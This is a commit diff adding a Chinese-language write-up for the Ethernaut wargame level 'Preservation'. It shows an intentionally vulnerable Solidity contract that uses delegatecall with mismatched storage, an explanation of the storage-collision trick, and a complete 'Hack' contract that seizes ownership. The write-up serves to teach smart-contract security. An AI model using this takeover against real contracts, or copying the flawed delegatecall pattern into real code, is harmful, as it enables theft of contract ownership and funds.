

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 24749 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 25132 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 16

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -1166,3 +1166,127 @@ contract NaughtCoin is ERC20 { // 基于 ERC20
 ### 参考资料
 
 [ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-_mint-address-uint256-)
+
+## 16. Preservation
+
+声明对实例的所有权
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract Preservation {
+
+  // public library contracts
+  address public timeZone1Library;
+  address public timeZone2Library;
+  address public owner;
+  uint storedTime;
+  // Sets the function signature for delegatecall
+  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
+
+  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
+    timeZone1Library = _timeZone1LibraryAddress;
+    timeZone2Library = _timeZone2LibraryAddress;
+    owner = msg.sender;
+  }
+
+  // set the time for timezone 1
+  function setFirstTime(uint _timeStamp) public {
+    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
+  }
+
+  // set the time for timezone 2
+  function setSecondTime(uint _timeStamp) public {
+    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
+  }
+}
+
+// Simple library contract to set the time
+contract LibraryContract {
+
+  // stores a timestamp
+  uint storedTime;
+
+  function setTime(uint _time) public {
+    storedTime = _time; // 修改了第一个状态变量
+  }
+}
+```
+
+- `delegatecall` 只使用给定地址的代码，其他属性（存储、余额等）都取自当前合约，因此，调用 `delegatecall` 合约的存储布局必须和被调用合约保持一致
+- 先利用 `setFirstTime` 修改合约 `Preservation` 的第一个状态变量，即 `timeZone1Library` 的值为合约 `Hack` 的地址，再调用 `setFirstTime` 函数，此时将执行合约 `Hack` 中的代码
+    - `timeZone1Library` 如果修改错误则无法进行后续步骤，此时再重新申请一个实例
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract Preservation {
+
+  address public timeZone1Library;
+  address public timeZone2Library;
+  address public owner;
+  uint storedTime;
+  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
+
+  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
+    timeZone1Library = _timeZone1LibraryAddress;
+    timeZone2Library = _timeZone2LibraryAddress;
+    owner = msg.sender;
+  }
+
+  function setFirstTime(uint _timeStamp) public {
+    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
+  }
+
+  function setSecondTime(uint _timeStamp) public {
+    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
+  }
+}
+
+contract LibraryContract {
+
+  uint storedTime;
+
+  function setTime(uint _time) public {
+    storedTime = _time;
+  }
+}
+
+contract Hack {
+  // Make sure the storage layout is the same as Preservation
+  // This will allow us to correctly update the state variables
+  address public timeZone1Library;
+  address public timeZone2Library;
+  address public owner;
+  uint storedTime;
+
+  Preservation preservation;
+
+  constructor(address instance) public {
+      preservation = Preservation(instance);
+  }
+
+  function attack() public {
+      // override address of timeZone1Library
+      preservation.setFirstTime(uint(uint160(address(this))));
+      // change the owner
+      preservation.setFirstTime(1);
+  }
+
+  // function signature must match LibraryContract.setTimeSignature
+  function setTime(uint _) public {
+      owner = tx.origin;
+      _;
+  }
+}
+```
+
+- 库应使用 `library` 来声明
+- `library` 与 `contract` 类似，但不能声明任何状态变量或向其发送以太
+
+### 参考资料
+
+- [Delegatecall | Solidity by Example](https://solidity-by-example.org/hacks/delegatecall/)
+- [Library | Solidity by Example](https://solidity-by-example.org/library/)
````
